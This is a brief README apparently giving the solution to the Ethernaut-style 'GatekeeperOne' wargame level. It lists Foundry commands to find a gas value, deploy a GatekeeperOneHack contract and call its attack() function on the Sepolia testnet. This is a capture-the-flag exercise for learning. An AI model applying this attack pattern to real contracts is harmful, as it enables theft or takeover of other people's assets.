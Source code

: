 # GatekeeperOne Solution

Uncomment line 16 in `test/GatekeeperOneTest` and add the `instanceAddress`, then comment out line 15.

Find the correct amount of `gas`:

```
forge test --mt test_gateTwo --rpc-url $SEPOLIA_RPC_URL -vvv
```

Deploy `GatekeeperOneHack`:

```
forge create GatekeeperOneHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Call the `attack()` function:

```
cast send `gatekeeperOneHackAddress` "attack(address,uint256)" `ìnstanceAddress` `gas` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
